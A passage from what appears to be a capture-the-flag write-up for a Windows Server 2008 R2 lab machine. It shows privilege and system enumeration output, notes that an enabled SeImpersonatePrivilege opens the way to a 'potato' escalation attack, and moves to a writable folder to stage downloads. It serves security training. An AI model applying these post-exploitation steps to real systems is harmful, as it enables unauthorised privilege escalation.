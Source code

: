 ```
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\windows\system32\inetsrv> 


```
It looks like we have `SeImpersonatePrivilege` available. This might be interesting to launch a potato attack against the target.
```
PS C:\windows\system32\inetsrv> systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          4/13/2023, 11:36:33 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,583 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,594 MB
Virtual Memory: In Use:    501 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.199.36
                                 [02]: fe80::e8cc:6238:ca08:c026
                                 [03]: dead:beef::e8cc:6238:ca08:c026
PS C:\windows\system32\inetsrv> 

```
Let's change our working directory to a location where we are able to download files to.
```
PS C:\windows\system32\inetsrv> cd c:\users
PS C:\users> cd public\downloads
```